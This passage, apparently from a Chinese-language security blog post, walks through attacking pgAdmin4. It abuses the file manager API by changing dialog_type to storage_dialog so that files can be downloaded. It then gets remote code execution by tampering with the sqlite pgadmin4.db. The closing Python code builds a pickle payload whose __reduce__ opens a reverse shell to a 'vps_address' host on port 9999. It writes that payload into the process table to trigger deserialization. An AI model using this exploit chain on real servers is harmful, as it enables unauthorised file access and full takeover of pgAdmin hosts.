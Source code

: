 ![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtYLfYhZbD5Yphhk5XJBmmx6dDpvaRsoWlYZ2VLdziakp0pJXiawkbMmcQ/640?wx_fmt=png)

4） 这下都齐全了，登录创建的账号访问文件管理器接口。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtubCcmiaGMXN8ZZvQYhcwOdh04FMSOfyrnvNYJB59v3ZvoCf4A6Haq3w/640?wx_fmt=png)

舒服了，访问文件管理接口成功列出根目录。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtia4JUlWa3n68ibQIa4YdIWv9OrdftrmQxlnzmLw7ImyEjP5LicHuUqJiaQ/640?wx_fmt=png)

访问后发现只能遍历无法下载？不存在的一切只是前端校验罢了： 从后端找到遍历文件模式选择接口，只需要将 dialog\_type 的类型修改为 storage\_dialog 即可。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtzs7SU4HPEZEI2E8OicO1tCPsRzdBB4icKFoIcUSNTEcTZKLcPpH9gxug/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtziaFs6HicYcAguoyP61ZTOrO77PtTmbNYABR4cHZjhuF0pt8HJ8Jic71Q/640?wx_fmt=png)

找到下载文件接口读取成功。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtj9l0F3vywdBxYo01YkL51XY0B9FbULrWC2sjFzreaL9m4sYticAaicIQ/640?wx_fmt=png)

### 三） 替换数据库文件反序列化 RCE

寻找 RCE 的点，这里只是发现了这个方法，应该有更加便捷的点： 思路是找到代码中存在从数据库中取值进行反序列化的操作，此处反序列化原本参数格式要求严格，但是由于 pgadmin4 默认使用 sqlite3，可以直接利用文件管理器下载数据库，修改后再上传达到不损坏原始数据，这样触发该接口即可造成反序列化命令执行。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtAelVBplALPfkgdIQfa1qxuInibHrkEmckGMnspQDUaZZUWFlibSpZh3Q/640?wx_fmt=png)

1）docker 下默认数据库为 / var/lib/pgadmin/pgadmin4.db，下载 sqlite 数据库后进行修改然后再上传覆盖源数据库文件。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s557gGEv1KJY3ZqwSKp8UgEtsRnd3d9GoiazAquupruFP16mRsJiccaynPAJCvK302sO7Rs7ialIQr5AA/640?wx_fmt=png)

插入一段反弹 shell 的 python 语句，并修改 sqlite3 数据库。

```
import os
import pickle
import socket
import pty


class exp(object):
def \_\_reduce\_\_(self):
a = 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((\\\\"vps\_address\\\\",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(\[\\\\"/bin/sh\\\\",\\\\"-i\\\\"\]);"'
return (os.system,(a,))


e = exp()
s = pickle.dumps(e)

import sqlite3

# OK, now for the DB part: we make it...:
db = sqlite3.connect('pgadmin4.db')
db.execute('UPDATE process set desc = (?) where pid="123"', (s,))
db.commit()
db.close()
```
